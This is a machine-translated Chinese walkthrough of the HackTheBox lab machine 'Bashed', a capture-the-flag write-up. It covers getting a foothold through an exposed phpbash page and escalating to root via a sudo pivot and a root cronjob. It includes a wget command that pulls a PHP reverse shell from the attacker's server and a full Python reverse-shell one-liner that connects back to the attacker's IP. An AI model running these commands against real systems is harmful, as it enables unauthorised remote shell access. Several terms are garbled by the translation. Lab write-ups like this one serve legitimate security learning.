# 黑盒子写文章

> 原文：<https://infosecwriteups.com/hackthebox-write-up-bashed-388c1a743145?source=collection_archive---------1----------------------->

*这是来自*[*HackTheBox*](https://www.hackthebox.eu/)*的机器* [*BASHED*](https://www.hackthebox.eu/home/machines/profile/118) *的特写。*

# 摘要

Bashed 是一个基于 phpbashshell 的简单机器，cronjob 被用来获取根，从这个机器我们知道了不同的 revershell。

*机器作者:* [Arrexel](https://www.hackthebox.eu/home/users/profile/2904) *机器类型:Linux
机器级别:3.4/10*



机器地图

# 专有技术

*   Nmap
*   关于 revershell 的基础知识

# 吸收技能

*   Python 和 PHP 反向 shell
*   须岛一号
*   Crontab

# 扫描网络

```
$nmap -sC -sV 10.10.10.68
```



nmap 结果

# 端口 80 上的 Dirbuster



可怕的结果

phpbash.php 看起来很有趣。



[http://10 . 10 . 10 . 68/dev/PHP bash . PHP](http://10.10.10.68/dev/phpbash.php)

phpbash.php 是一个基本的反壳，用户是 **www-data** 。让我们尝试获得反向外壳，并进一步利用以获得 root。

[](https://github.com/pentestmonkey/php-reverse-shell) [## pentest monkey/PHP-reverse-shell

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/pentestmonkey/php-reverse-shell) 

在反向 shell 中更改 IP 地址



设置服务器上传 revershell

```
$wget [http://10.10.16.101:8000/php-reverse-shell.php](http://10.10.16.101:8000/php-reverse-shell.php)
```



男子 wget



正在下载机器中的反向外壳

访问此 URL 激活 revershell。[http://10 . 10 . 10 . 68/uploads/PHP-reverse-shell . PHP](http://10.10.10.68/uploads/php-reverse-shell.php)



设置反向外壳

```
*python -c 'import pty; pty.spawn("/bin/bash")'*
```



交互式外壳



另一个用户**script manager**拥有**脚本**文件夹。

# 拥有用户

要获取用户信息，只需进入 arrexel 文件夹并阅读 user.txt。


自己的用户

# 特许升级

让我们试着提升特权。

```
$sudo -l
```



满须藤



www-data 用户可以执行来自用户 **scriptmanager 的任何命令。**

```
$sudo -u scriptmanager /bin/bash
```



满须藤



获取另一个用户


满须藤

让我们进入脚本管理器拥有的**脚本**。

有两个文件 test.py 和 test.txt

*   test.py:-这是由 scriptmanager 拥有的，它打开一个 test.txt 文件并打印一些文本。
*   test.txt:-它由 root 所有，因此有一些 root 作业正在运行，在其中执行 test.py，创建了一个属于 root 的 test.txt。

让我们上传一些 python shell，也许它也是由 root 运行的，我们可以得到相反的 shell。



这是我正在使用的 python 反向 shell(不要忘记根据您的选择更改 IP 和端口)。

 [## 反向外壳备忘单

### 如果你足够幸运，在渗透测试中发现了一个命令执行漏洞，不久之后…

pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.101",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



让我们上传 shell i 并等待一段时间来获得 revers shell。



拥有根

```
$crontab -l
```



man crontab



克朗乔布

这是作为 root 运行的 cronjob。

# 拥有根



自己的根

[](https://medium.com/@yashanand155) [## 增量中等

### 从 inc0gnito 介质上读取文字。夺旗类游戏🚩|| HACKTHEBOX || VULNHUB ||反转。每天，成千上万的人…

medium.com](https://medium.com/@yashanand155) 

*感谢阅读！如果你喜欢这个故事，请* ***点击*** 👏 ***按钮，分享*** *它来帮助别人！欢迎发表评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。*

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)